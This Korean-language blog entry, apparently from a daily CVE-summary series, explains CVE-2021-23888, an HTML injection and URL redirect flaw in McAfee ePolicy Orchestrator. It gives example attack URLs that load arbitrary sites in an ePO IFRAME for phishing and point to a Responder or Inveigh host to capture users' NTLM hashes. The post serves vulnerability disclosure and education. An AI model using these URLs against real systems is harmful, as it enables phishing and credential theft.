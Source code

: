 ```yaml
---
title: "[하루한줄] CVE-2021-23888: McAfee ePolicy Orchestrator HTML Injection"
author: insu
tags: [insu, cve, mcafee, html injection]
categories: [1day1line]
date: 2021-03-28 14:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

[CVE-2021-23888 - McAfee ePolicy Orchestrator HTML Injection](https://ricardojba.github.io/CVE-2021-23888-McAfee-ePolicy-Orchestrator-HTML-Injection/)

## Target

- McAfee ePolicy Orchestrator

## Explain
McAfee ePolicy Orchestrator 5.10 Update 10 이전 버전에서 검증되지 않은 client 측 URL redirect 취약점이 발견되었습니다. 이 취약점을 통해 인증된 ePO 사용자는 신뢰되지 않은 ePO IFRAME을 로드하여 인증된 사용자의 정보를 도용할 수 있습니다.

```
https://epo-host:8443/core/orionNavigationLogin.do#/core/orionDefaultPage.do
```

위의 주소로 접근을 하게 되면 `/core/orionDefaultPage.do`가 IFRAME 내부에서 참조되는 것을 확인할 수 있습니다.

여러 시도를 통해 [`https://epo-host:8443/core/orionNavigationLogin.do#//google.com`](https://epo-host:8443/core/orionNavigationLogin.do#//google.com) google search page를 IFRAME에서 로드하는 것을 확인할 수 있습니다.

공격자는 `#` 뒤의 domain/URL을 바꾸어 victim에게 보내 피싱 공격을 할 수 있습니다.

![](2021-03-28/Untitled.png)

또한, host에서 실행되는 Responder-or-Inveigh를 가리키게 해 ePO 사용자의 NetNTM 해시를 얻을 수 있습니다.

```
https://epo-host:8443/core/orionNavigationLogin.do#//host-running-responder-or-inveigh
```